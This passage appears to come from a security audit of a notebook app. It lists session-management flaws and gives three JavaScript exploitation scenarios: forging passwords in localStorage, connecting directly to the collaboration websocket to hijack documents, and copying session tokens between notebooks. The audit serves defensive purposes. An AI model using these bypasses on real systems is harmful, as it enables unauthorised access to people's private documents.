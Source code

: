 ### **Session Management Weaknesses**
- **LocalStorage reliance**: Session data in browser storage
- **Device fingerprinting**: Spoofable client-side generation
- **No server validation**: Sessions not verified server-side
- **Unencrypted storage**: Fallback to plaintext for "compatibility"

---

## **🎯 EXPLOITATION SCENARIOS**

### **Scenario 1: Direct Client-Side Bypass**
```javascript
// Step 1: Navigate to private notebook
window.location.href = "/notas/private-notebook";

// Step 2: Open browser dev tools and execute
localStorage.setItem('notebook_passwords', '{"private-notebook":"fake-password"}');

// Step 3: Reload page
window.location.reload();

// Result: Access granted without valid password
```

### **Scenario 2: Real-time Collaboration Hijacking**
```javascript
// Step 1: Discover document ID (social engineering, URL guessing)
const targetDocId = "discovered_document_id";

// Step 2: Connect directly to collaboration server
const provider = new HocuspocusProvider({
  url: "wss://collaboration-server:6002",
  name: targetDocId,
  document: new Y.Doc()
});

// Result: Full read/write access to private document
```

### **Scenario 3: Session Token Manipulation**
```javascript
// Step 1: Create valid session for any notebook
// Step 2: Extract session token
const validSession = localStorage.getItem('secure_sessions');

// Step 3: Copy to target notebook
const sessions = JSON.parse(validSession);
sessions['target-notebook-id'] = sessions['known-notebook-id'];
localStorage.setItem('secure_sessions', JSON.stringify(sessions));

// Result: Hijacked session grants access to target notebook
```

